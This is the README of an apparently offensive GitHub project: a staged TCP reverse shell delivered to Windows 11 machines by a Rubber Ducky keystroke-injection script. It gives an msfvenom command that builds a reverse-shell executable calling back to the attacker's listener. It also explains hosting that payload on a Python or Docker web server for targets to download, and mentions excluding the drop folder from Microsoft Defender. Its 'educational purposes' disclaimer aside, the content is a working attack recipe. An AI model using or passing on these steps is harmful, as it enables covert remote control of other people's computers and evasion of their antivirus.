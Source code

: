 # README

This code does not promote or encourage any illegal activities. The content in this document is provided solely for
educational purposes and to create awareness.

# Staged TCP Reverse Shell with Rubber Ducky script within Windows Terminal

Since Microsoft pushed the latest 22H2 up-date for Windows 11 all Powershell reverse shell payloads have stopped working. Microsoft made changes to the way commandline tools are being opened. Everything will be opened in the new "Windows Terminal" and the "powershell -nop -noni -W hidden" commands are not working anymore.

This Reverse Shell script is tested on the latest Windows version and is working properly.

Requirements:

- The executable itself - Step 1
- HTTP server to host the shell executable - Step 2

## 1 - craft malicious executable

I'm using a Staged Meterpreter TCP reverse shell executable. To craft one you can use "msfvenom" with the following command:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-LISTENER] LPORT=[PORT-LISTENER] -f exe > payload.exe`

Change the LHOST and LPORT to your own listener server.

## 2- ducky script and execute

**Option 1: Simple Python Webserver**

Navigate to the directory containing shell.exe and run:

```
python3 -m http.server 8080
```

**Option 2: Docker + Apache Webserver**

Create a lightweight Apache container and map your executable folder:

```
docker create --name webserver \
  -p 8080:80 \
  -v [PATH-TO-FOLDER-WITH-EXECUTABLE]:/usr/local/apache2/htdocs:ro \
  httpd:2.4-alpine
```

Then start the container:

```
docker start webserver
```

Now you can access the file at:

```
http://<server-ip>:8080/payload.exe
```

Next, change the variables in the script:

- LINE 25 === VARIABLES
  Changing the paths is optional. I'm using C:\temp to create the folder and exclude it withint MS Defender. If you want a different path or executable name you can change them
- LINE 36 === URL
  This one is important because the target computers needs to download your crafted executable. Fill in the URL of your HTTP server and specify the folder/filename
